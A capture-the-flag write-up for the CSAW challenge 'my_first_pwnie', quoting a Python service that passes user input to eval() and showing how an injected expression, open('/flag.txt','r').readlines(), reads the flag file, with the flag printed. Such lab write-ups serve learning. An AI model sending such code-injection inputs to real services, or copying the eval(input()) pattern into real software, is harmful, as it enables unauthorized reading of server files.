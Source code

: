 # my_first_pwnie

---
## Challenge
```
You must be this 👉 high to ride.

Note: flag is in /flag.txt

Author: ElykDeer

Connect with:
nc intro.csaw.io 31137 
```

[my_first_pwnie.py](../_resources/my_first_pwnie.py)

---
## Code Analysis
``` 
try:
  response = eval(input("What's the password? "))
  print(f"You entered `{response}`")
  if response == "password":
    print("Yay! Correct! Congrats!")
    quit()
except:
  pass

print("Nay, that's not it.")
```
This code shows the main part that we must exploit to be able to read ```/flag``` to complete the challenge. It looks like that our user input is passed to the ```eval``` function. This means that our input will be interpreted as a python expression and the output will be placed in the ```response``` variable. This means that we can execute arbitrary code then have the result written back to us by the print statement later on.

---

---
## Exploitation
Lets input some python expressions to the server and see what happens.
```
What's the password? 4+4
You entered `8`
Nay, that's not it.
```
Nice it looks like our input is being passed as python code and the output is printed back to us. Now lets try to read the ```/flag.txt``` file
```
What's the password? open('/flag.txt','r').readlines()
You entered `['csawctf{neigh______}\n']`
Nay, that's not it.
```
Nice we opened and read the file with our arbitrary python code execution !

---